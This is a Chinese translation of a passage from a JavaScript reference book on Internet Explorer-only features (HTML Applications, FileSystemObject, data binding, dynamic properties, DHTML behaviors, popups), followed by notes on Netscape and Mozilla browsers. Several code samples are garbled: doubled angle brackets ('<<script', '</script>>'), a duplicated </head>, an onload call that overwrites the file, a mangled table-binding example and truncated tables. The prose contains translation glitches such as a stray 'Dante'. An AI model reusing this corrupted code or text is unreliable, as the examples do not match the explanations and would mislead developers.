虽然对这个对象的完整讨论超出了本书的范围，但你可以从它提供的方法中看出，它使你能够对用户的文件系统做任何你想做的事情。我们将在下一节关于 HTML 应用程序的篇幅中，简要介绍这些功能的一个示例。

### HTML 应用程序

HTML 应用程序（HTA）允许网页像应用程序一样在用户的机器上运行。HTA 是普通的 HTML 文档（带有相关的 CSS 和 JavaScript），只是将扩展名重命名为 ".hta"。当它们在 Web 上被遇到时，用户会收到提示，可以选择像运行普通可执行文件一样运行该文件，或者将其保存到磁盘。无论是保存到磁盘然后激活，还是直接从 Web 执行，HTA 都在 Internet Explorer 中运行。HTA 出现的窗口在默认情况下是裸露的（没有浏览器按钮、应用程序菜单等），但可以通过在文档的 `<head>` 中放置一个 `<hta:application>` 元素来自定义外观。

HTA 的主要目的是让开发人员能够使用 HTML 及其相关技术实现完整的应用程序。这些应用程序提供自己的用户界面，并被授予对客户端机器的全面访问权限。这意味着你可以编写文字处理器、电子表格、电子邮件客户端或文件工具，使用基于 HTML 和 CSS 的展示，并使用 JavaScript 来实现其功能。你可以在 HTA 中嵌入 Java 小程序和 ActiveX 控件，就像在普通页面中一样，并且可以使用这些技术来执行操作系统和网络任务，这些任务如果只用 JavaScript 会复杂得多，甚至不可能实现。

下面的例子是一个简单的文本编辑器。它读取并写入一个名为 "test.txt" 的文件，位于你的 C: 盘根目录。它不包含任何错误检查，仅用于演示 HTA 的基本操作。用户会看到一个 `<textarea>` 和两个按钮，一个将文本写入文件，另一个读取 Dante 读取文件的内容。你可以将以下代码保存为 .hta 文件，并从本地驱动器或从 Web 页面运行它。在此之前，请确保 C:\test.txt 中没有重要信息。输出结果（在输入一些额外文本后）如图 21-2 所示。


图 21-2：在 HTA 中使用 **FileSystemObject** 实现简单的文本编辑器

```html
<html>

<head>

<title>HTA Example</title>

<!--
Don't bother with XHTML as an HTA it buys you nothing and may cause problems
-->

</head>

<script type="text/jscript">
<!--
// Careful -- no error checking
function readfile()
{
    var fso, filehandle, contents;

    fso = new ActiveXObject("Scripting.FileSystemObject");

    filehandle = fso.OpenTextFile("c:\\test.txt", 1);

    contents = filehandle.ReadAll();

    if (contents)
        document.all("filecontents").value = contents;

    filehandle.Close();
}

function writefile()
{
    var fso, filehandle;

    fso = new ActiveXObject("Scripting.FileSystemObject");

    filehandle = fso.CreateTextFile("c:\\test.txt", true);

    filehandle.Write(document.all("filecontents").value);

    filehandle.Close();
}
//-->
</script>

</head>

<body onload="writefile();">

<h2>Simple File Editor</h2> Modifying <tt>c:\test.txt</tt>

<form>

<textarea id="filecontents" cols="50" rows="15">
HTAs are powerful.
</textarea>

<br>

<input type="button" value="Read file" onclick="readfile();"> &nbsp; &nbsp;
<input type="button" value="Write file" onclick="writefile();">

</body>

</html>
```

使用 HTA 有一些明显的缺点。首先，它们只能在 Windows 系统的 IE5+ 中工作。其次，因为它们被允许不受限制地访问本地操作系统资源，许多用户会（有充分的理由）不愿意运行它们。请注意，浏览器在运行 HTA 之前确实会发出警告，如下所示：


尽管用户经常访问的许多页面中嵌入的 ActiveX 控件具有相同的功能，但许多用户不愿意运行像 HTA 这样的"可执行文件"，即使他们可以事先查看源代码。在使用带有 HTA 的帧时，也有一些特殊的注意事项。

### 数据绑定

服务器端程序（如 CGI 脚本）传统上被用于实现数据密集型的 Web 应用程序，例如允许用户查询或更新大型信息数据库的页面。在传统模型中，表单数据被提交到服务器端程序，该程序解析数据，查询相关的数据源，并从查询结果构建一个新页面。这个新页面然后返回给客户端，过程重新开始。Internet Explorer 4+ 中的数据绑定通过提供将数据源直接绑定到标记元素的能力，将大部分工作转移到了客户端。

在数据绑定模型中，数据源在页面开头定义，然后通过专有的 **datasrc** 和 **datafld** 属性绑定到元素（如表格中的 `<span>` 或表单字段）。通过嵌入的小程序或 ActiveX 控件，浏览器自动处理页面中数据的检索、组织和展示，这曾经是服务器端脚本的职责范围。通过将功能从服务器移到客户端，对数据的任何进一步处理——例如，细化搜索条件或重新排序数据项——可以在浏览器中完成，无需与服务器进行额外的交互。可以使用各种各样的数据源（用微软的术语说是数据源对象，DSO）以相当可互换的方式提供数据。最常见的是这些 DSO 是 SQL 数据库，但它们也可以是 JDBC 数据源，甚至是 XML 或制表符分隔的文本文件。

为了更好地理解数据绑定的概念，让我们展示一个简单的例子。在这种情况下，我们使用一个外部数据文件，包含两列或更多列逗号分隔的数据。第一行包含对应于各列的数据集字段名称。下面的行包含各字段的实际数据。示例外部数据文件名为 "alphabet.txt"，如下所示：

Letter, Thing
A, Apple
B, Boy
C, Cat
D, Dog
E, Elephant
F, Fox
G, Girl
H, Hat

要访问数据，HTML 文档引用一个数据源控件对象和相关的表格定义。以下是如何实现这一点的示例：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>Data Binding Example</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

<!--  validation not possible due to datasrc and datfld attributes -->

</head>

<body>

<object id="alphabet"
classid="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83">
    <param name="DataURL" value="alphabet.txt" />
    <param name="UseHeader" value="True" />
</object>

<table datasrc="#alphabet" border="1">
<thead>
    <tr bgcolor="yellow">
        <tr align="center"> <td><span datafld="Letter"></span> </td> <td><span datafld="Thing"></span></td> </tr> </tbody> </table> </body> </html>
```

这段 HTML 代码从文件 "alphabet.txt" 生成一个表格，其中每个表格行包含一个字母和一个能让读者联想到该字母的事物名称。此示例在 Internet Explorer 中的渲染效果如 [图 21-3](#Figure_21-3) 所示。


虽然对数据绑定的完整讨论超出了本书的范围，但在 Internet Explorer 环境中工作的 JavaScript 程序员应该意识到，浏览器提供了一套非常强大的与数据绑定相关的功能。这些功能通过文档对象模型公开，最明显的是作为元素对象的 **dataSrc** 和 **dataFld** 属性，如上一个示例所示。你可以动态地从不同标签中添加、修改和删除数据源，此外还可以直接访问和操作数据记录本身。数据源对象有一个 **recordset** 属性，可用于动态地浏览、添加和修改记录。通常，开发人员向用户呈现一个记录列表，并使用 **recordset** 方法来显示和更改单个记录，以响应用户操作，例如，在表单按钮的 **onclick** 处理程序中包含对 **recordset** 方法的调用。

### 动态属性

在 Internet Explorer 5+ 中，属性的值不限于静态值。你可以将属性设置为任何有效的 JavaScript 表达式，使得每当表达式的值发生变化时，该属性的值也会更新。用于动态属性的方法列于表 21-11 中。前三个可以作为文档对象层次结构中任何对象的方法调用，而 **recalc()** 方法是 **Document** 对象的属性。

表 21-11：Internet Explorer 5+ 中用于动态属性的方法

| 方法 | 描述 |
| :--- | :--- |
| `setExpression("aproperty", "expression")` | 将对象的 *aproperty* 属性设置为 *expression*。 |
| `getExpression("aproperty")` | 检索 *aproperty* 的值所设置到的表达式。 |
| `removeExpression("aproperty")` | 移除 *aproperty* 的值所设置到的表达式。 |
| `document.recalc(allExpressions)` | 显式强制重新计算文档中设置为表达式的属性。*allExpressions* 是一个布尔值，当为 **true** 时，强制重新计算文档中的每个表达式。如果为 **false** 或省略，则仅重新计算自上次重新计算以来已更改的那些表达式。 |

动态属性最明显的应用是自动更新样式，消除在窗口大小调整等事件发生时手动更新样式的需要。例如，要使标题的字体大小随窗口大小自动缩放，你可以使用

```html
<h1 style="position: absolute; font-size: 48pt;"
id="myHeading">Dynamic Properties</h1>

<script type="text/jscript">
<!--
document.all("myHeading").style.setExpression("fontSize",
                "document.body.clientWidth/6");
//-->
</script>
```

调整大小前和调整大小后的结果如图 21-4 所示。


图 21-4：动态属性使你能够自动化样式计算。

> **注意** 你可以使用 **expression()** 语法直接在样式表中设置动态属性——例如：**height: expression(document.body.clientHeight/2)**。

当然，动态属性并不仅限于样式。以下示例展示了元素 **innerText** 属性的自动更新。*sum* 元素的 **innerText** 属性被设置为一个求和两个表单字段值的表达式。每当字段值改变时，求和结果就会更新。示例输出如 [图 21-5](https://example.com/figure_21_5) 所示。


图 21-5：使用动态属性创建一个基础计算器

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
  "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>Dynamic Properties Example 2</title>

<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />

</head>

<body>


<form action="#" method="get">

First Number: <input type="text" id="num1" value="0" /><br />

Second Number: <input type="text" id="num2" value="0" /><br />

Sum: <b id="sum"> </b>

</form>

<script type="text/jscript">

<!--

// We could get into trouble if the value of the text fields aren't

// numbers, so we assume that a non-integer value means zero.

function computeSum()
{
    var n1 = parseInt(document.all("num1").value);
    if (!isFinite(n1))
    {
        n1 = 0;
    }
    var n2 = parseInt(document.all("num2").value);
    if (!isFinite(n2))
    {
        n2 = 0;
    }
    return n1 + n2;
}
document.all("sum").setExpression("innerText", "computeSum()");
// -->
</script>
</body>
</html>
```

许多开发者发现动态属性功能非常令人兴奋。它简化了页面布局的某些方面，并可用于实现各种应用程序。前一个示例中暗示的简单计算器功能只是冰山一角。

### DHTML 行为

行为旨在将复杂的 DHTML 代码从页面中移出，封装到更小、可复用的单元中，这些单元作为更复杂应用程序的基本构建块。行为是 Internet Explorer 4 中包含的脚本小程序能力的自然发展。其理念是将特定功能——例如，悬停图像切换或工具提示显示——封装到一个 HTML 组件（HTC）中，该组件可以绑定到页面中的任意元素。HTC 只是包含与实例无关的 JavaScript 代码的独立文件，但原则上行为也可以同样容易地用二进制文件或 VBScript 实现。然而，由于这是一本关于 JavaScript 的书，我们自然专注于使用微软形式的 JavaScript（即 JScript）的 HTC。

乍一看，将 DHTML 代码移出页面本身的任务可能显得令人生畏。毕竟，页面中似乎总是需要一些 JavaScript，不是吗？事实是，行为允许你（原则上）将所有 DHTML 代码，包括事件处理程序，移到主文档之外。虽然确实有一些情况下你会希望直接在页面中包含 JavaScript，但你可以将最常用的功能移动到 HTC 中。通过在绑定行为的单个元素标签中包含适当的开发者定义的 HTML 属性，可以实现对行为的定制。此外，Internet Explorer 配备了许多强大的内置行为，你可以无需任何编码即可使用。而且，最重要的是，将行为绑定到元素的过程极其简单。只需一行 JavaScript 就可以将行为附加到元素上，或者通过使用元素的 CSS 绑定，甚至完全无需 JavaScript。

除了脚本小程序，有两种可用的行为。Internet Explorer 5 支持原始的 DHTML 行为，现在称为“附加行为”。Internet Explorer 5.5 支持一种称为“元素行为”的附加行为扩展。这两种技术并非互斥；相反，它们相互补充对方的能力。以下部分主要关注附加行为，但我们在最后简要讨论元素行为。

#### 附加行为

有几种方法可以向元素添加行为。第一种是使用对象的 **addBehavior()** 方法。此方法接受一个字符串作为参数，指示定义要添加的行为的 HTC 文件的 URL。例如，要将 "rollover.htc" 中定义的悬停行为附加到 id 为 "myButton" 的按钮，你可以编写

```javascript
document.all("myButton").addBehavior("rollover.htc");
```

你可以通过设置对象 **style** 的 **behavior** 属性来达到相同的效果。

例如：

```javascript
document.all("myButton").style.behavior = "rollover.htc";
```

通常，当将行为绑定到大量元素时，使用 CSS 语法的 **behavior** 扩展。例如，你可以将所有的悬停按钮分配给类 "rolloverButton"，然后使用以下 CSS 将 HTC 附加到该类：

```css
.rolloverButton { behavior:url(rollover.htc) }
```

因为行为是 CSS 的扩展，你也可以内联定义它们：

```html

```

要向一个元素添加多个行为，你可以多次调用 **addBehavior()**，在赋值给 **style.behavior** 时设置多个空格分隔的值，或者在样式表中包含多个 **url()** 子句。以下示例说明了在样式绑定中使用多个 **url()** 的情况：

```css
.rolloverButton { behavior:url(rollover.htc) url(tooltip.htc) }
```

#### 移除行为

移除行为的过程取决于它是如何添加的。如果行为是使用 **addBehavior()** 添加的，那么该方法的返回值是一个唯一的整数，可以传递给 **removeBehavior()** 以移除它。如果行为是使用其他方法添加的，移除它就复杂得多。你可能需要手动检查相关元素的 **behaviorUrns[]** 集合，以确定要移除的行为的 **id**。一旦确定，你可能可以将该整数传递给 **removeBehavior()**。下面是一个添加后立即移除行为的简单示例。

```javascript
var behaviorIndex = document.all("myButton").addBehavior("rollover.htc");

document.all("myButton").removeBehavior(behaviorIndex);
```

如果你需要动态移除行为，几乎总是最好使用 **addBehavior()** 调用来添加它们，而不是使用内联 CSS。

#### 定义行为

HTC 文件定义了行为的公共接口、事件绑定和代码。这些文件包含 HTML 和 HTC 元素，并以 .htc 扩展名保存。以下示例显示了典型 HTC 文件的形式：

```xml
<public:component>

    <!-- definitions of public properties -->

    <!-- definition of public methods -->

    <!-- definitions binding events at the element to actions in this HTC -->

<script type="text/jscript">

    // Code implementing HTC behavior

</script>

</public:component>
```

**\<public:component\>** 和相关元素是由专有的基于 XML 的 HTC 语言定义的，所以如果你以前没见过它们，不用担心。你还会注意到有些元素会用 /> 关闭。这样做确保了空元素格式正确，这是 XML 的要求。

暂时忽略公共方法和属性的问题，我们首先考虑如何将事件绑定到 HTC 中的代码。事件绑定通过 **\<public:attach\>** 元素进行。它的 **event** 属性设置为你希望“捕获”的事件处理程序，它的 **onevent** 属性设置为事件发生时要执行的代码。例如，要捕获 **mouseover** 事件并更改元素的背景色，你可以定义以下 HTC：

```xml
<public:component>

<public:attach event="onmouseover" onevent="activateBackground()" />

<script type="text/jscript">

<!--

var originalColor;

function activateBackground()

{

  originalColor = style.backgroundColor;

  style.backgroundColor = "yellow";

}

//-->

</script>

</public:component>
```

注意 HTC 如何可以隐式地访问它所绑定元素的 **style** 对象。这是因为 HTC 的作用域规则规定，如果在行为本身中找不到标识符，那么它所附加的元素就是下一个外围作用域。如果在所附加的元素中也无法解析该名称，则会检查定义该元素的 **window**。请注意，你可以使用 **element** 标识符显式引用行为所绑定的对象，但在实践中很少需要这样做。

要向包含行为所绑定元素的文档公开一个公共属性，可以使用 **\<public:property\>** 元素，并将 **name** 属性设置为属性的名称。例如，你可以在 HTC 中包含以下内容：

```xml
<public:property name="activeColor" />
```

然后，绑定行为的元素可以通过设置 *activeColor* 属性来设置此值。假设 "rollover" **class** 绑定到你的 HTC，你可能会使用

```html
<a href="index.html" class="rollover" activeColor="red">Click me</a>
```

为了了解这可能如何使用，我们重新审视之前的悬停示例，这次包含一个 **onload** 事件处理程序，如果元素中未定义 **activeColor**，则进行设置：

```xml
<public:component>

<public:attach event="onmouseover" onevent="activateBackground()" />

<public:attach event="onmouseout" onevent="deactivateBackground()" />

<public:attach event="onload" for="window" onevent="initialize()" />

<public:property name="activeColor" />
```


```html
<<script type="text/jscript">

<!--

var originalColor;

function activateBackground()
{
    originalColor = style.backgroundColor;
    style.backgroundColor = activeColor;
}

function deactivateBackground()
{
    style.backgroundColor = originalColor;
}

function initialize()
{
    // If the activecolor wasn't specified in an attribute, set it
    if (!activeColor)
        activeColor = "yellow";
}

//-->>

</script>>

</public:component>>
```

这个 HTC 有几个新的方面。添加了一个 **onmouseout** 事件处理程序，以便在鼠标移出时将背景色恢复为原始颜色。此外，还公开了 **activeColor** 属性，允许将其设置为元素的属性。还为 **Window** 对象指定了一个 **onload** 事件处理程序。该处理程序调用 **initialize()** 函数，该函数检查应用此行为的元素上是否指定了 **activeColor**。如果没有指定，**activeColor** 将未定义，因此会为其设置一个默认值，在本例中是黄色。

假设此行为包含在 "rollover.htc" 文件中，我们可以将其附加到文档中的元素；例如：

```
<<b style="behavior:url(rollover.htc)" activeColor="red">>当鼠标悬停时变为红色<</b>>

<br />
```

```
<<b style="behavior:url(rollover.htc)">>当鼠标悬停时变为黄色<</b>>
```

第一个 `<<b>>` 元素显式设置了 **activeColor**，但第二个没有。因此，第二个元素使用了默认颜色，黄色。

HTC 既可以公开属性，也可以公开方法。公开方法类似于公开属性，只是使用的是 `<<public:method>>` 元素，并将 **name** 设置为要公开的函数的名称。一旦公开，该函数就可以作为附加了此行为的任何元素的方法来调用。

尽管我们到目前为止讨论的功能可能看起来令人印象深刻，但它们实际上只是行为定义的基本方面。还有许多其他可用功能，包括创建自定义事件处理程序以及比本书篇幅所能涵盖的更出色的 DHTML 效果。阅读本节后，您已打下了坚实的基础，可以在此基础上构建更高级的 DHTML 行为技能。鼓励感兴趣的读者访问微软的 MSDN 网站 (**msdn.microsoft.com**)，了解更多关于 DHTML 行为所能提供的功能。但首先，需要认识到编写自己的行为可能并非必要，因为许多行为在浏览器中默认就是内置的。

#### 默认行为

Internet Explorer 5+ 配备了众多 DHTML 行为，可应用于各种元素。这些行为在表 21-12 中列出。

**表 21-12：Internet Explorer 5+ 中的一些默认行为**

| 行为 | 描述 |
| --- | --- |
| anchorClick | 使浏览器能够显示 Web 服务器的可浏览导航“树”。此行为只能附加到 `<a>` 元素。 |
| Anim | 启用与 Microsoft 的 DirectAnimation 查看器的交互。 |
| clientCaps | 提供有关浏览器和平台的信息——类似于 **Navigator** 对象，但更详细。还提供了安装浏览器组件的便捷方法。 |
| Download | 下载文件，并在下载完成后调用回调函数。 |
| homePage | 提供有关用户起始页的信息。例如，它允许获取、设置和导航到起始页。 |
| httpFolder | 启用允许浏览导航“树”（文件夹视图）的功能。 |
| saveFavorite | 允许在将页面添加到用户的“收藏夹”列表时保存页面的当前状态。通常附加到表单，对于“登录”页面非常有用。 |
| saveHistory | 允许为当前浏览会话保存页面的当前状态。每当用户返回到该页面时，页面将显示为保存的状态。通常附加到表单。 |
| saveSnapshot | 允许在用户将页面保存到本地文件系统时保存页面的当前状态。 |
| userData | 允许保存和检索大量状态信息，甚至可以跨多个浏览会话。 |

如你所见，这些默认行为更多地与浏览器功能和状态信息相关，而不是传统的 DHTML。它们公开的接口可能有点复杂，因此我们不会深入探讨每一个的具体细节（尽管在 **第 16 章** 末尾包含了保存状态信息的示例，**第 17 章** 也涉及了浏览器能力）。

默认行为像其他任何行为一样附加到元素上，但使用的 URL 格式为

#default#*behaviorName*

其中 *behaviorName* 是你希望附加的默认行为的名称。例如，要将 **userData** 行为附加到所有表单元素，你可以在 CSS 定义中使用以下代码：

```
form { behavior:url(#default#userData) }
```

默认行为的完整文档可以在 MSDN 上找到。

#### 元素行为

附加行为用于增强或覆盖现有元素的正常行为，而元素行为则用于定义新的、自定义的元素。例如，你可以创建自己的鼠标悬停元素，为其定义默认行为，并将其包含在页面中，就好像它是 HTML 的真实部分一样。你甚至可以将附加行为与此方式创建的新元素一起使用。

创建自定义元素类似于创建附加行为。使用几乎与定义附加行为完全相同的语法来创建 HTC 文件。但是，元素行为是通过 XML 导入到页面中的，导入后，新元素可以直接在页面中使用，无需显式绑定到 HTC 文件。因为 HTC 文件定义了新元素，所以没有必要使用 **addBehavior()** 或用于附加行为的 CSS 语法；这样做是多余的。实际上，无法像附加行为那样将元素行为绑定到元素。

元素行为功能极其强大，远超本书的范围。但是，了解 XML 和前面讨论的附加行为功能的读者应该能够毫无困难地创建自己的元素。除了元素行为高度非标准的特性外，使用它们的唯一缺点是仅 Internet Explorer 5.5+ 支持。目前，建议坚持使用附加行为，直到浏览器用户分布大量转向更新版本的 IE。

#### 行为与传统 DHTML

附加行为相对于传统 DHTML 有两个主要优势。第一是附加行为更容易添加到你的页面中，并且一旦添加就更容易维护。第二是行为比大多数传统 DHTML 应用程序更具封装性和可重用性。虽然传统 DHTML 当然可以以非常模块化的方式编写，但通常使用附加行为更容易创建可重用的组件。此外，行为可以轻松地在同一元素上组合使用。这是即使编写良好的传统代码也常常缺乏的一个特性。

元素行为允许实现否则不可能（或很难实现）的功能。用自己的自定义元素扩展文档的能力赋予了你在设计和实现上的自由。

行为的缺点已经提到过，即它们是一种专有技术，尚未成为任何标准的一部分。但是，同样，大量的 DHTML 应用程序是为使用专有文档对象模型而编写的，因此行为并不标志着与传统趋势有那么显著的背离。

### 弹出窗口

Internet Explorer 提供了使用 **Window** 对象的 **createPopup()** 方法创建弹出窗口的能力。此功能在第 12 章中有所提及，但为了完整性，这里再次包含。

弹出窗口的行为与使用 **window.open()** 创建的窗口不同。**createPopup()** 方法不接受参数，并返回对已创建窗口的引用。新创建的弹出窗口最初是空的且隐藏的，不会立即获得焦点。程序员负责用内容填充窗口，然后使用其 **show()** 方法向用户显示。然后，一旦用户激活页面的另一部分（例如，在弹出菜单外右键单击），弹出菜单就会自动隐藏。

**show()** 方法的语法是

```
popupWindow.show(x, y, width, height [, relativeTo])
```

其中 *popupWindow* 是对使用 **window.createPopup()** 创建的窗口的引用，*x*、*y*、*width* 和 *height* 以像素为单位指定弹出窗口的水平位置、垂直位置、宽度和高度。可选参数 *relativeTo* 是对 *x* 和 *y* 坐标所相对的对象的引用。如果省略 *relativeTo*，则 *x* 和 *y* 坐标将被视为相对于主窗口的左上角。

创建一个示例弹出窗口为我们提供了一个很好的借口，来练习本章前面提到的条件编译功能。因为弹出窗口仅在 Internet Explorer 5.5+ 中可用，所以只有在浏览器支持的情况下才会使用它。否则，将使用 **alert()** 框，尽管在“真正的”应用程序中，使用相对定位的 DHTML 层可能更好。在 IE5.5 中显示的弹出菜单如图 21-6 所示。
```


**图 21-6**：弹出窗口提供的行为与 alert() 或常规浏览器窗口不同。

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>Popup Window Example</title>
<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />
<script type="text/javascript">
<!--
function showPopup()
{
    /*@cc_on @*/
    /*@if (@_jscript_version >= 5.5)
        var newpopup = window.createPopup();
        newpopup.document.body.style.backgroundColor = "lightblue";
        newpopup.document.body.style.padding = "8";
        newpopup.document.body.innerHTML = "What a <b>wonderful</b> window!";
        newpopup.show(150, 300, 150, 50, document.all("mybutton"));
    @else @*/
        alert("What a boring window!");
    /*@end @*/
}
// -->
</script>
</head>
<body>
<h2>Popup Example</h2>
<form action="#" method="get">
<input id="mybutton" type="button" value="Show the popup" onclick="showPopup();"
/>
</form>
</body>
</html>
```

弹出窗口除了 **show()** 之外还有一些其他有用的属性。它的 **hide()** 方法可以将其隐藏，而它的 **isOpen** 属性返回一个布尔值，指示该窗口当前是否显示。更多 IE 特定窗口功能的示例可以在[第 12 章](#)末尾找到，当然也可以在 MSDN 在线上找到。

### JScript 的其他功能

JScript 还有许多您可能不了解的功能。下面列出了 Microsoft 为 JScript 提供的一些最有趣的应用程序和工具。在 [http://msdn.microsoft.com/scripting](http://msdn.microsoft.com/scripting) 上可以了解有关这些技术的更多信息。

- **远程脚本（Remote Scripting）** 允许从客户端 JScript 向服务器端 JScript 进行远程过程调用（RPC），支持同步和异步两种方式。客户端脚本通过嵌入式 Java 小程序向远程服务器上的 Active Server Pages 发出调用，消除了通过提交表单数据进行传统交互的需要。您可以在[第 19 章](#)中看到类似功能的示例。
- **脚本控件（Script Control）** 允许您在应用程序中嵌入 JScript 和 ActiveX 控件。
- **脚本宿主（Script Host）** 将 JScript 支持集成到 Windows 操作系统中，允许您使用 JScript 自动执行操作系统任务，方式类似于 UNIX 中的 shell 脚本。

### Netscape 浏览器

Netscape 4 及更早版本的浏览器正迅速变得不如以往重要。忠实用户正在转向基于 Mozilla 的浏览器，而这些 outdated 浏览器的用户数量正在迅速减少。随着时间推移，Netscape 4 及更早版本的衰落只会继续，因此本节仅简要介绍该浏览器的具体细节。

#### JavaScript

除了少数例外，Netscape 将 JavaScript 语言改进纳入了新浏览器版本的主要发布中。Netscape 将其语言实现称为 "JavaScript *x*"，其中 *x* 标识语言版本号。表 21-13 显示了语言版本与浏览器版本之间的对应关系。

**表 21-13：JavaScript 语言版本与 Netscape 浏览器版本之间的对应关系**

| 语言版本 | 浏览器版本 |
|---|---|
| JavaScript 1.0 | Netscape 2 |
| JavaScript 1.1 | Netscape 3 |
| JavaScript 1.2 | Netscape 4.0–4.05 |
| JavaScript 1.3 | Netscape 4.06–4.7 |
| JavaScript 1.4 | 无（仅服务器端） |
| JavaScript 1.5 | Netscape 6.x 和 7.x |

JavaScript 1.0 是 JavaScript 的第一个实现，作为 Netscape 2 的一部分包含在内，并构成了 ECMAScript 的松散基础，ECMAScript 是 JavaScript 核心语言特性的标准。Netscape JavaScript 的其他版本在不同程度上与 ECMAScript 标准相对应。Netscape JavaScript 与 ECMAScript 的对应关系如表 21-14 所示。

**表 21-14：语言版本与 ECMAScript 标准之间的对应关系**

| Netscape 版本 | 标准版本 | 例外情况 |
|---|---|---|
| JavaScript 1.0–1.2 | 与 ECMA-262 第 1 版松散符合 | 很多，尤其是 **Date** 对象，以及许多额外功能 |
| JavaScript 1.3 | 严格符合 ECMA-262 第 1 版 | 包含一些额外功能 |
| JavaScript 1.4 | 严格符合 ECMA-262 第 1 版 | 包含一些额外功能 |
| JavaScript 1.5 | 严格符合 ECMA-262 第 3 版 | 包含一些额外功能 |

有时需要编写 JavaScript 以适应特定范围浏览器的能力。为此，您需要确保仅使用目标浏览器中可用的语言功能；例如，您需要避免在 Netscape 2 中使用 `Number.MAX_VALUE`，因为它是在 JavaScript 1.1 中引入的。

哪些核心 ECMAScript 功能出现在哪些浏览器和语言版本中，完整文档可以在附录 B 中找到。此外，有几个网站对于研究兼容性和语言标准本身非常有用。目前，Netscape 在 <http://devedge.netscape.com> 的"文档"部分维护其 JavaScript 参考，不过随着该浏览器生命周期的终结，它可能会在不久的将来被移除。ECMAScript 标准的引用包含在 Mozilla 项目的 JavaScript 部分中，网址为 <http://www.mozilla.org/js/language/>。

### 基于 Mozilla 的浏览器

基于 Mozilla 的浏览器，如 Mozilla、Firefox、Camino 和 Netscape 6+，是许多技术用户的首选浏览器。它们也是 Linux 和 BSD 等类 UNIX 平台用户最流行的浏览器。如果您的用户群体包括高度技术性的用户，或者您运行的内联网站主要面向 Linux 开发人员，那么了解基于 Mozilla 的浏览器支持的功能会非常有用。

#### 背景

1998 年 3 月，Netscape 将其浏览器源代码的清理版本以 "Mozilla" 的名义发布给开源社区。Mozilla 是 Netscape 浏览器产品的内部代码名称，源自 "Mosaic killer"，是对 Web 第一个流行图形浏览工具的引用。如今，"Mozilla" 指的是一个浏览器、一个平台*和*一个组织。Mozilla 浏览器是一个跨平台的开源浏览器，其组件可以方便地重用，作为构建*您自己的*浏览器的基础。Mozilla 平台是一个跨平台的应用程序开发框架，Mozilla 浏览器和许多其他应用程序都是基于它编写的。Mozilla 组织是一个独立的开发者团体，致力于维护和改进 Mozilla 平台和 Mozilla 浏览器。

"核心" Netscape 浏览器功能的开发转向 Mozilla 开源项目，这解释了 Netscape 5 的缺席。作为 Mozilla 发布的代码本应是 Netscape 5 的基础。然而，Mozilla（组织）决定重新编写浏览器的大部分内容。由于未来版本的 Netscape 浏览器将基于 Mozilla（浏览器和平台），Netscape 5 的发布被取消了。

尽管 Mozilla 项目的许多主要贡献者是 Netscape/AOL 员工（或前员工），但任何愿意付出努力的人都可以将 Mozilla 源代码纳入任何浏览器版本中，但须遵守某些许可限制。Netscape 对 Netscape 6 正是这样做的。他们等到 Mozilla 项目达到足够的成熟度，然后将其源代码（以及相关开源项目的源代码）集成到一个全新的浏览器中，并将其命名为 Netscape 6。您可以将基于 Mozilla 的浏览器供应商（如 Netscape）想象成在特定时刻对 Mozilla（及相关）源代码进行"快照"，然后分支到自己的开发分支上。正是由于这个原因，虽然 Netscape 6+ 和其他基于 Mozilla 的浏览器*并不等同于* Mozilla，但它们密切相关，因此开发人员经常将 Mozilla 和基于 Mozilla 的浏览器互换使用。

> **注意** 感兴趣的读者可以在 http://www.mozilla.org 了解更多关于 Mozilla 各个方面的信息。如果您有兴趣尝试基于 Mozilla 的浏览器，我们强烈推荐尝试 Firefox，这是一个精简版的 Mozilla 浏览器，速度非常快。您可以在 http://www.mozilla.org/products/firefox/ 下载它。请记住：由于 Mozilla 是一个开源项目，感兴趣的读者也可以为浏览器编写代码，从而获得永恒的网络名声。

#### 标准支持

基于 Mozilla 的浏览器的出现标志着与传统浏览器趋势的根本背离。基于 Mozilla 的浏览器强调 W3C 和 ECMA 标准的实现和遵守，为标准代码有朝一日可以编写一次并在许多不同平台和浏览器上 equally 良好运行提供了希望（我们之前在哪里听说过这一点？）。尽管 Mozilla 项目最初受到了很多质疑，但时间证明基于 Mozilla 的浏览器（如 Firefox）在多个方面都是优质的产品，标准支持就是其中之一。

表 21-15 显示了基于 Mozilla 的浏览器中的标准支持。更仔细地查看表格可以发现，您可以在基于 Mozilla 的浏览器中使用标准 DOM 技术进行事件和 DHTML 操作。所谓的 DOM0 为向后兼容而得到支持，Netscape 浏览器的屏幕位置相关属性以及进行插件和 MIME 类型检测的能力（参见第 18 章）也是如此。最后，一些有用但非标准的功能（如元素对象的 innerHTML 属性）也存在。

| 类型 | 支持标准 |
|------|------------------|
| 标记 | HTML 4、XHTML 1.1、XML、XML 命名空间、XLink（部分）、XPath、MathML 和其他相关 XML 技术 |
| 样式 | CSS1（完整）、CSS2（部分）、DOM2 Style（大部分）和 XSLT |


### 标准模式与怪异模式

Mozilla 有三种不同的模式来解释标记和样式。如果你的标记在基于 Mozilla 的浏览器中没有按预期工作，你应该添加适当的 DOCTYPE 以确保浏览器进入正确的模式。这些模式以及导致浏览器进入这些模式的条件列于表 21-16 中。请注意，所列条件只是一般规则；Mozilla 实际上会应用一些复杂的"模式嗅探"逻辑来确定进入哪种模式。完整信息请参见 [http://mozilla.org/docs/web-developer/](http://mozilla.org/docs/web-developer/)。

**表 21-16：基于 Mozilla 的浏览器根据其 DOCTYPE 不同以不同方式解释页面**

| 模式 | 触发条件 | 描述 |
|------|-------------|-------------|
| 标准模式 | 严格的 DOCTYPE | 严格按照 (X)HTML 和 CSS 标准解释页面。这意味着浏览器不会对损坏的标记或样式进行"修复"。 |
